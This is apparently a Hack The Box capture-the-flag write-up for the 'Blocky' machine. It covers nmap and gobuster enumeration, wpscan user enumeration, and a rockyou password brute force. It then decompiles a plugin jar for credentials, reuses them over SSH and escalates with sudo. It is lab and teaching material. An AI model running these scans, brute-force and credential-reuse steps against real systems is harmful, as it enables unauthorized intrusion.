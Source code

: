 # Blocky | HTB
### Difficulty Level: Easy 
----------------------------------

Start with nmap scan: 

```bash
nmap -p- -T4 -A 10.10.10.37 -oN blocky.nmap
```

-p- scans all ports instead of the 1000 common ports.

-T4 - increases the scan's speed.

-A - aggressive scan to gather more inforamtion about the system.

-oN - saves the output to file.

Results:
```bash
Nmap scan report for 10.10.10.37
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.12 (89%), Linux 3.2 - 4.9 (89%), Linux 3.8 - 3.11 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT       ADDRESS
1   112.87 ms 10.10.14.1
2   113.13 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 769.45 seconds
```
There are 4 open ports:

21 - FTP 

22 - SSH

80 - HTTP

25565 - MINECRAFT

While browse into the web page, I could not access it so add the ip-address to the 
/etc/hosts file with:

```bash
echo '10.10.10.37     blocky.htb' >> /etc/hosts
```

There is a webpage under construction.


![image](https://cdn-images-1.medium.com/max/1000/1*N4TOEPj359KkVI8m8TmVYA.png)

So, use gobuster to enumerate directories within the system.

```bash
gobuster dir -u http://blocky.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
Progress: 25176 / 220561 (11.41%)
[!] Keyboard interrupt detected, terminating.
Progress: 25176 / 220561 (11.41%)
===============================================================
Finished
```

let's navigate to /wp-admin, and there is wp-login page.

![image](https://cdn-images-1.medium.com/max/1000/1*RWW8gheMoxzx2U-G0eTvUA.png)

it's time to use wpscan to get the usernames that have wp accounts.

```bash
wpscan --url http://blocky.htb --enumerate u
```

Results:
```bash
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)****
```

There is a username: notch. 

brute force to get the password with:

```bash
wpscan --url http://blocky.htb -U notch -P /usr/share/wordlists/rockyou.txt
```

While attacking, we need to think about another way to achieve the goal.

There is phpmyadmin login page.


![image](https://cdn-images-1.medium.com/max/1000/1*PUHin7COlBautApkw8IKEg.png)


phpMyAdmin is a free and open-source web-based application written in PHP,
designed to provide a graphical interface for managing MySQL and MariaDB databases.

Let's navigate to /plugins.


![image](https://cdn-images-1.medium.com/max/1000/1*SoWU5v3D2-SKc_Lc5tcdPw.png)


there are 2 files.

both are jar file so I used jd-gui to revese it back.

```bash
jd-gui BlockyCore.jar
```

there are some credentials:

![image](https://cdn-images-1.medium.com/max/1000/1*BFPpHkTpLmFAuEUmL1aYtg.png)

```
SQL credentials:
root:*************************************
```

So, let's try to get into the system with ssh:

```bash
ssh root@10.10.10.37
```

I didn't make it so let's try with the user notch.

```bash
ssh notch@10.10.10.37
```

and it works. we are in as notch.

Grab user.txt flag.

```bash
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
********************************
notch@Blocky:~$ 
```

Let's see if there are any files that can notch run with sudo to get root:

```bash
notch@Blocky:/tmp$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Good news. notch can run any file as any user (includs root).
so just switch user to root with:

```bash
sudo su
```

... and we are root. Grab root.txt flag.

```bash
notch@Blocky:/tmp$ sudo su
root@Blocky:/tmp# whoami
root
root@Blocky:/tmp# cat /root/root.txt 
********************************
root@Blocky:/tmp#

```

THIS IS THE END.

***Written by Alon Presman, Penetration Tester and Ethical Hacker.***



























